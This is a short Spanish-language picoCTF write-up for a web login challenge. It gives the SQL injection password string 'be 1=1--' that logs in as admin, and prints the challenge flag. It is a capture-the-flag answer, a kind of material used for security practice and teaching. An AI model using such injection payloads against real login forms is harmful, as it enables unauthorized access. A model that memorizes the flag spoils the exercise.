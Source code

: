 
#### Description

There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/40742/` ([link](https://jupiter.challenges.picoctf.org/problem/40742/)) or http://jupiter.challenges.picoctf.org:40742. Try to see if you can login as admin!

## Pistas

Seems like the password is encrypted.

## Solución


Ponemos el siguiente codigo en  password: 'be 1=1--'
``` 
# Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_4424e7af}

```

## Bandera
Flag:  picoCTF{3v3n_m0r3_SQL_4424e7af}


## Notas adicionales


## Referencias
